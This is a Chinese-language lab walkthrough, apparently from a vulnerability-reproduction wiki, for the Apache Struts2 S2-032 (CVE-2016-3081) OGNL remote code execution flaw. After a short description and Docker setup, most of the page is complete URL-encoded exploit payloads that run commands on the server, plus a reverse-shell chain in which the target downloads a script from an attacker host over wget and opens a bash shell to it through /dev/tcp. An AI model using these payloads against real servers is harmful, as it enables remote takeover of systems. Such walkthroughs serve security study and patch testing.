


Apache Struts2 S2-032 远程代码执行漏洞 CVE-2016-3081¶
漏洞描述¶
Struts2 在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用 method:<name> 的方式来调用名字是 <name> 的方法，而这个方法名将会进行 OGNL 表达式计算，导致远程命令执行漏洞。
漏洞详情:
- https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html
漏洞影响¶
影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)
环境搭建¶
Vulhub 执行以下命令启动 s2-032 测试环境：
docker-compose build
docker-compose up -d
环境启动后，访问 http://your-ip:8080 即可看到默认页面。
漏洞复现¶
直接请求如下 URL，即可执行 id 命令：
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
上传 shell.sh 文件的 Payload 为：
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=wget%20192.168.174.128/shell.sh
执行 shell.sh 文件的命令为：
bash shell.sh
执行 shell.sh 文件的 Payload 为：
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=bash%shell.sh
成功接收反弹 shell：
